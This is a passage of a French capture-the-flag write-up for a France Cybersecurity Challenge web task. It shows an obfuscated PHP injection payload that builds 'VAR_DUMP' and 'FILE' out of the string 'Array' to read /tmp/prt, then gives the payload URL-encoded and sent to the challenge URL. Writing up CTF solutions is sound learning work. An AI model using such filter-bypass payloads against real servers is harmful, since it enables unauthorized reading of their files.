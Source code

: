 On a bien notre fichir `prt` présent dans `/tmp`

Enfin, on va essayé de récupérer le contenu de ce fichier grâce ) la fonction PHP [`file`](https://www.php.net/manual/fr/function.file.php)

```php
<?php

$_=[]; // Array
$_=@"$_"; // 'Array'
$_=$_["!"=="@"]; //'A'
$z=$_; // 'A'
++$_;++$_;++$_;
$r=++$_; // 'E'
++$_;++$_;++$_;
$t=++$_; // 'I'
++$_;++$_;++$_;++$_;++$_;
$p=++$_; // 'O'
$j = $p."RD"; // 'ORD'
$d = $j("b");
++$_;++$_;++$_;++$_;++$_;
$n=++$_; // 'U'
$h = "F{$t}L{$r}"; // 'FILE'
$b ="V".$z."R_D".$n."MP"; //'VAR_DUMP'
$b($h("/tmp/prt")); // VAR_DUMP(FILE("/tmp/prt"))
```

- `$h` contient `FILE`
- `$b` contient `VAR_DUMP`

On exécute `$b($h("/tmp/prt"))` qui fait un `VAR_DUMP(FILE("/tmp/prt"))`

On vérifie la taille et on encode aussi

```
php > echo strlen('$_=[];$_=@"$_";$_=$_["!"=="@"];$z=$_;++$_;++$_;++$_;$r=++$_;++$_;++$_;++$_;$t=++$_;++$_;++$_;++$_;++$_;++$_;$p=++$_;$j = $p."RD";$d = $j("b");++$_;++$_;++$_;++$_;++$_;$n=++$
237

php > echo urlencode('$_=[];$_=@"$_";$_=$_["!"=="@"];$z=$_;++$_;++$_;++$_;$r=++$_;++$_;++$_;++$_;$t=++$_;++$_;++$_;++$_;++$_;++$_;$p=++$_;$j = $p."RD";$d = $j("b");++$_;++$_;++$_;++$_;++$_;$n=++$_;$h = "F{$t}L{$r}";$b ="V".$z."R_D".$n."MP";$b($h("/tmp/prt"));');
%24_%3D%5B%5D%3B%24_%3D%40%22%24_%22%3B%24_%3D%24_%5B%22%21%22%3D%3D%22%40%22%5D%3B%24z%3D%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24r%3D%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24t%3D%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24p%3D%2B%2B%24_%3B%24j+%3D+%24p.%22RD%22%3B%24d+%3D+%24j%28%22b%22%29%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24n%3D%2B%2B%24_%3B%24h+%3D+%22F%7B%24t%7DL%7B%24r%7D%22%3B%24b+%3D%22V%22.%24z.%22R_D%22.%24n.%22MP%22%3B%24b%28%24h%28%22%2Ftmp%2Fprt%22%29%29%3B
```

On va sur

```
http://challenges2.france-cybersecurity-challenge.fr:5008/?code=%24_%3D%5B%5D%3B%24_%3D%40%22%24_%22%3B%24_%3D%24_%5B%22%21%22%3D%3D%22%40%22%5D%3B%24z%3D%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24r%3D%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24t%3D%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24p%3D%2B%2B%24_%3B%24j+%3D+%24p.%22RD%22%3B%24d+%3D+%24j%28%22b%22%29%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%2B%2B%24_%3B%24n%3D%2B%2B%24_%3B%24h+%3D+%22F%7B%24t%7DL%7B%24r%7D%22%3B%24b+%3D%22V%22.%24z.%22R_D%22.%24n.%22MP%22%3B%24b%28%24h%28%22%2Ftmp%2Fprt%22%29%29%3B
```
